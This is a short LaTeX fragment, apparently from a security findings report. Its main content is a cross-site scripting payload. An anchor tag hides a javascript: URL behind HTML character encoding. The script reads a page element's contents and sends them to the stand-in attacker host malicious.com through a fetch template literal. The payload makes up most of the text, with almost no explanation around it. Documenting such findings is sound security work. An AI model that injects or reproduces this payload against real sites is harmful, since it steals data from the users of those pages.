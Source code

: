 \section{Findings}
\label{sec:Findings}
Combination of <a> with javascript in href injection, HTML ascii encoding, tagged template literals (line breaks for readability)
\begin{lstlisting}
<a href=j&#97v&#97script&#x3A;
var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
var&#32data&#32=&#32&#123body:secret,method:'POST'\};
fetch`https:\//malicious.com:3001/api/ping?secret=$&#123data\}`>ClickMe</a>
\end{lstlisting}
